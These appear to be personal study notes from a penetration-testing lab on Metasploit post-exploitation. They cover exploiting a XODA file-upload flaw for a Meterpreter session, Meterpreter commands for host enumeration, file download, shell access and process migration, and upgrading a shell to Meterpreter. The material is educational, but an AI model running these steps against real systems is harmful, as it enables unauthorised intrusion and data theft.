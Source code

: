 ## Post Exploitation fundamentals

* post Exploitation
    * Priv Escalation
    * Maintain persistance
    * cleanup

### Meterpreter Fundamentals

* Stands for Meta Interpreter
* Executes in memory

lab:
* db_nmap -sV <target>
    * reveals Apache running
    * curl <target>
        * reveals XODA
* search XODA
    * use exploit/unix/webapp/xoda_file_upload
    * results in a meterpreter session
* Meterpreter fundamentals
    * help : for help
    * sysinfo : gets basic host info
    * getuid: get user info
    * ctrl+z or background : puts the session into background
    * sessions or sessions -l : lists all active sessions in msfconsole
    * sessions -h: for help info in sessions
    * sessions -C sysinfo -i 1: runs sysinfo on session 1
    * cat, cd, mkdir, rmdir: file operations
    * download <file>: downloads the file to local
    * shell: opens a native shell session on target (native to target)
        * /bin/bash -i (opens bash)
    * getenv env_name: get env values
    * search -d /usr/bin -f *backdoor*: search for filename with backdoor in /usr/bin
        * search -f *php: search for php files system wide
    * ps: list all processess
    * migrate <pid>: migrate the meterpreter process to given PID. This cmd will not always be successful, it depends on permissions of compromized service

### Upgrading cmd shell to meterpreter

* two options
    * 1:
        * search shell_to_meterpreter
        * use /post/multi/manage/shell_to_meterpreter
        * set LHOST <local_ip>; set SESSION <id>; run
    * 2:
        * sessions -l
        * sessions -u <id> (Automatically runs the post exploitation module and upgrades the session)

## Windows post exploitation
